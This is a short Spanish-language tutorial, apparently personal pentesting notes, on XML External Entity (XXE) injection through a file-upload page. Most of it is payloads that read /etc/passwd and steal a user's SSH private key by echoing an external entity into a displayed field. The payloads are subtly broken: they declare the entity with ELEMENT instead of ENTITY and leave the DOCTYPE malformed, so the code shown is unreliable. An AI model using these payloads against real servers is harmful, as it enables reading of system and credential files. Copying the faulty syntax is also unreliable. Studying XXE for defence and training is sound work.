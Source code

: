 XML External Entity esta es una vulnerabilida en la por medio de una estrucutra *XML* a travez de la declaracion de entidades podemos ver archivos locales e incluso a ejecutar comandos.

Supongamos el caso de una pagina web donde puedes subir archivos *XML* conteniendo ciertas etiquetas en el archivo.

- Elements
- Author
- Subject
- Content

``` xml
<elements>
	<Author>S4tisfacti0n</Author>
	<Subject>Es una prueba</Subject>
	<Content>example</Content>
</elements>
```

y  nosotros subimos este archivo y podemo ver que carga este contenido en la web de manera interpretada.

Asi que podemos aprovechar esto e inyectar entidades para despues con un gruapper de tipo file y hacer un poco de [[LFI & RFI|LFI]].

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
	<!ELEMENT foo ANY >
	<!ELEMENT xxe SYSTEM "file:///etc/passwd"]
<elements>
	<Author>&xxe;</Author> <!-- Mostramos el valor de la variable xxe --> 
	<Subject>Es una prueba</Subject>
	<Content>example</Content>
</elements>
```

Igual mente podemos robar la llave privada de la siguiente forma
``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
	<!ELEMENT foo ANY >
	<!ELEMENT xxe SYSTEM "file:///home/s4tisfacti0n/.ssh/id_rsa"]
<elements>
	<Author>&xxe;</Author> <!-- Mostramos el valor de la variable xxe --> 
	<Subject>Es una prueba</Subject>
	<Content>example</Content>
</elements>
```

Tambien existe una tecnica casi igual a esta solo que en esta no puedes ver lo que representa ese *XML* en ese caso tendriamos que montarnos nuestras propias entidades y ser llamadas por la maquina victima.